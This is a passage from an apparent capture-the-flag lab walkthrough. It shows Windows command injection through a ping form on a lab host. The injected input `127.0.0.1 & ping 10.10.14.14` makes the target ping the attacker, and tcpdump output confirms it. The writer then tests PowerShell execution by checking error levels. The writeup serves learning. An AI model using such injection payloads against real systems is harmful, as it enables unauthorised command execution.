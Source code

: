 I decided to try a really simple injection - adding commands to the end. In
Windows, there are three types of [conditional
execution](https://ss64.com/nt/syntax-conditional.html):

  * `command1 && command2` \- Run 2 if 1 succeeds
  * `command1 || command2` \- Run 2 if 1 fails
  * `command1 & command2` \- Run both

If I enter `127.0.0.1 & ping 10.10.14.14`, it should ping itself, and then me.
I’ll watch in `tcpdump`:

    
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:03:43.507202 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 87, length 40
    09:03:43.507263 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 87, length 40
    09:03:44.631350 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 88, length 40
    09:03:44.631369 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 88, length 40
    09:03:45.576903 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 89, length 40
    09:03:45.576920 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 89, length 40
    09:03:46.687291 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 90, length 40
    09:03:46.687331 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 90, length 40
    

Not only does it ping me, but 5 times, the default in Windows. The ping I got
from the panel the first time was 2 times, so the script likely ran something
like `ping -n 2 127.0.0.1 & ping 10.10.14.14`.

#### PowerShell

I wanted to see if I could run PowerShell commands. Since `&&` and `||` are
based on the error level returned, I can use that to determine if things are
succeeding.

I’ll demonstrate in my Windows VM. When I have a successful PowerShell
command, the ErrorLevel is 0. When I enter something that fails, it’s 1.

    
    
    C:\Users\0xdf>powershell -c echo yay
    yay
    
    C:\Users\0xdf>echo %ERRORLEVEL%
    0
    
    C:\Users\0xdf>powershell -c echod yay
    echod : The term 'echod' is not recognized as the name of a cmdlet, function, script file, or operable program. Check
    the spelling of the name, or if a path was included, verify that the path is correct and try again.
    At line:1 char:1
    + echod yay
    + ~~~~~
        + CategoryInfo          : ObjectNotFound: (echod:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException
    
    